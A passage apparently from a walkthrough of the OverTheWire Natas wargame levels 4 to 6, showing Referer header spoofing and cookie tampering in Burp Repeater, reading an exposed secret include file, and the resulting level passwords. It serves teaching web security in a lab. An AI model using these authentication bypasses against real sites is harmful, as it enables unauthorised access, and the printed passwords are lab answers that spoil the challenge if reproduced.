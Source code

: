 Step 2: Burp Repeater -> Change `Referer: http://natas5.natas.labs.overthewire.org/`

```
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```

### natas5

```html
Access disallowed. You are not logged in</div>
```

Step 1: inspect response

```
HTTP/1.1 200 OK
Date: Fri, 04 Mar 2022 16:14:39 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: loggedin=0
Vary: Accept-Encoding
Content-Length: 855
Connection: close
Content-Type: text/html; charset=UTF-8
```

Step 2: Burp Repeater -> Add header `Cookie: loggedin=1`

```
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

### natas6

```php
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

We need find `$secret`, then post this value to form to pass the condition `$secret == $_POST['secret']`. The `$secret` variable wasn't declared in `index.php`, but `index.php` include `includes/secret.inc`.

Step 1: Access `includes/secret.inc`

```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

